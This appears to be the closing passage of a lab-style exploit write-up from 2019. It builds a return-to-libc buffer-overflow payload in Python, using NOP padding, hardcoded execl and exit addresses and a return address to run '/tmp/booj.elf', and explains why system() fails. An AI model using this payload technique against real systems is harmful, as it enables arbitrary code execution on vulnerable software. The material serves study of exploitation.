 The `execl` function usage:

```c
int execl(const char *path, const char *arg0,
     ...  /* const char *argn, NULL */);
```

Since it requested args, but we don't need them, just pass NULL into it.

But it may leads to problem, however, it use `copy()` with `fread()`, so it's not going to be a problem here.


In this way, the exploit should be like this:

```python
#!/usr/bin/env python3
import struct

ret_address = struct.pack('<I',0xbffff540) # replace this with vulnaddr

tmpbooj = b"/tmp/booj.elf\x00\x00\x00"
execl = struct.pack("<L", 0xb7ecaa80)
exit = struct.pack("<L", 0xb7e489d0)

buf = b""
buf += tmpbooj.ljust(76, b'\x90')
buf += execl
buf += exit
buf += ret_address
buf += struct.pack("<L", 0x0)
buf += struct.pack("<L", 0x0)

with open('tmpbuf','wb') as buffef:
	buffef.write(buf)
```

(2) Why not `system()` ?

`system` can be broken down into three function calls `fork`, `exec` and `wait`. So the entire process memory is forked and the given file is then run. The issue with [this](https://stackoverflow.com/questions/32892908/c-system-raises-enomem?noredirect=1&lq=1) is we’re liable to run out of virtual memory if we use this. Give it a try if you want and you’ll see that the exploitation fails. If you do manage to get it working, let me know.

(END) 2019.6.10
